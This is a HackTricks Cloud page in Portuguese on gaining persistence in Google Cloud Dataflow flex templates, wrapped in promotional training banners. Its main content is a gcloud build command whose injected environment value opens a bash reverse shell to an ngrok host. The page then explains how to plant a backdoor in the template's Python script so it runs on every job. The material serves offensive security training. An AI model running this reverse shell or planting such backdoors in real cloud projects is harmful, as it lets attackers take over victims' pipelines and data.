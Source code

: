 # GCP - Persistência do Dataflow

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Dataflow

### Persistência invisível em contêineres construídos

Seguindo o [**tutorial da documentação**](https://cloud.google.com/dataflow/docs/guides/templates/using-flex-templates), você pode criar um novo template flex (por exemplo, python):
```bash
git clone https://github.com/GoogleCloudPlatform/python-docs-samples.git
cd python-docs-samples/dataflow/flex-templates/getting_started

# Create repository where dockerfiles and code is going to be stored
export REPOSITORY=flex-example-python
gcloud storage buckets create gs://$REPOSITORY

# Create artifact storage
export NAME_ARTIFACT=flex-example-python
gcloud artifacts repositories create $NAME_ARTIFACT \
--repository-format=docker \
--location=us-central1
gcloud auth configure-docker us-central1-docker.pkg.dev

# Create template
export NAME_TEMPLATE=flex-template
gcloud dataflow $NAME_TEMPLATE build gs://$REPOSITORY/getting_started-py.json \
--image-gcr-path "us-central1-docker.pkg.dev/gcp-labs-35jfenjy/$NAME_ARTIFACT/getting-started-python:latest" \
--sdk-language "PYTHON" \
--flex-template-base-image "PYTHON3" \
--metadata-file "metadata.json" \
--py-path "." \
--env "FLEX_TEMPLATE_PYTHON_PY_FILE=getting_started.py" \
--env "FLEX_TEMPLATE_PYTHON_REQUIREMENTS_FILE=requirements.txt" \
--env "PYTHONWARNINGS=all:0:antigravity.x:0:0" \
--env "/bin/bash -c 'bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/13355 0>&1' & #%s" \
--region=us-central1
```
**Enquanto está sendo construído, você receberá um shell reverso** (você pode abusar de variáveis de ambiente como no exemplo anterior ou outros parâmetros que definem o arquivo Docker para executar coisas arbitrárias). Neste momento, dentro do shell reverso, é possível **ir para o diretório `/template` e modificar o código do script python principal que será executado (no nosso exemplo, este é `getting_started.py`)**. Defina sua backdoor aqui para que toda vez que o trabalho for executado, ela será executada.

Então, na próxima vez que o trabalho for executado, o contêiner comprometido construído será executado:
```bash
# Run template
gcloud dataflow $NAME_TEMPLATE run testing \
--template-file-gcs-location="gs://$NAME_ARTIFACT/getting_started-py.json" \
--parameters=output="gs://$REPOSITORY/out" \
--region=us-central1
```
{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporte o HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
